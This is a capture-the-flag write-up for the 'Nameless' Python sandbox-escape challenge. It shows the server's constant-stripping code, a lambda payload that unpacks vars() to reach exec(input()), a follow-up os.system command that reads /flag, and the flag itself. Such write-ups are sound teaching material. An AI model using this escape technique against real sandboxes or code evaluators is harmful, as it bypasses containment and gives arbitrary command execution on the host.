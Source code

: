 # Nameless (Misc)
> obligatory unrealistic sandbox escape challenge!!!!!!!

This challenge is a Python sandbox escape where the server strips almost all constants from your code and then runs it. It also removes all names (variables) that aren't locals/arguments.
All strings are set to "", numbers to 0, tuples empty, and code is recursively checked.

```py
def clear(code):
    print(">", code.co_names)
    new_consts = []
    for const in code.co_consts:
        print("C:", const)
        if isinstance(const, code_type): # functions/lambdas/etc
            new_consts.append(clear(const))
        elif isinstance(const, int): # ints set to 0
            new_consts.append(0)
        elif isinstance(const, str): # strings can stay if empty
            new_consts.append("")
        elif isinstance(const, tuple): # tuples are set to None (iirc it'll segfault otherwise actually)
            new_consts.append(tuple(None for _ in range(len(const))))
        else: # anything else is set to None
            new_consts.append(None)
    return code.replace(co_names=(), co_consts=tuple(new_consts)) # names are removed, triggering a segfault if there was one, and consts are updated
```

The code is eval'd with empty locals/globals, and the return value is treated as a function and called again with the output from `vars()`.

```py
go = input("Code: ")
res = compile(go, "home", "eval")
# ...
res = clear(res)
del clear
del go
del code_type
# Go!
res = eval(res, {}, {}) # expected to return a callable
print(res(vars(), vars))
```

My trick was to use keyword arguments to extract specific names from arguments, and `**` to convert the dicts from `vars()` into keyword arguments.

```py
lambda a, vars: (lambda __builtins__=None, **kw: (lambda exec, input, **k: exec(input()))(**vars(__builtins__)))(**a)
```

This calls `exec(input())`, so sending `import os; os.system('cat /flag')` works after.

```
irisctf{i_made_this_challenge_so_long_ago_i_hope_there_arent_10000_with_this_idea_i_missed}
```
